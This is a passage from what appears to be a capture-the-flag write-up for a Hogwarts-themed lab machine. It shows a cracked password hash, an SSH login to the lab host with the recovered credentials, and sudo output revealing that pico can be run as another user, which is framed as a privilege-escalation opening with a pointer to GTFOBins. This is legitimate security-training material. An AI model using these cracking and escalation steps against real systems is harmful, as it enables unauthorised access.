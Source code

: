 ```bash
* Passwords.: 6237                                                                                                                    
* Bytes.....: 63614                                                                                                                   
* Keyspace..: 6237                                                                                                                    
* Runtime...: 0 secs                                                                                                                  
                                                                                                                                      
Approaching final keyspace - workload adjusted.                                                                                       
                                                                                                                                      
b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885:wingardiumleviosa123
...
```

Since port 22 is open, SSH into the machine.
```bash
$ ssh harry@10.10.41.99                                                                                                   148 ? 2 ?
The authenticity of host '10.10.41.99 (10.10.41.99)' can't be established.
ECDSA key fingerprint is SHA256:tqvs4QmNV2BNfZVq42KFIsFtERVf7F4W5ziragiTf/0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.41.99' (ECDSA) to the list of known hosts.
harry@10.10.41.99's password: 
 _      __    __                     __         __ __                          __
 | | /| / /__ / /______  __ _  ___   / /____    / // /__  ___ __    _____ _____/ /____
 | |/ |/ / -_) / __/ _ \/  ' \/ -_) / __/ _ \  / _  / _ \/ _ `/ |/|/ / _ `/ __/ __/_ /
 |__/|__/\__/_/\__/\___/_/_/_/\__/  \__/\___/ /_//_/\___/\_, /|__,__/\_,_/_/  \__//__/
                                                        /___/

Last login: Thu Nov 26 01:42:18 2020
harry@hogwartz-castle:~$ ls
user1.txt
harry@hogwartz-castle:~$ cat user1.txt 
RME{********************************}
````

### Privilege Escalation.

Check whether harry user is in sudoers group.
```bash
harry@hogwartz-castle:~$ sudo -l
[sudo] password for harry: 
Matching Defaults entries for harry on hogwartz-castle:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User harry may run the following commands on hogwartz-castle:
    (hermonine) /usr/bin/pico
    (hermonine) /usr/bin/pico
```
So user harry can run pico as hermonine user. Lets Exploit it, visit [GTFOBins](https://gtfobins.github.io/) 
and search for pico bin exploits.
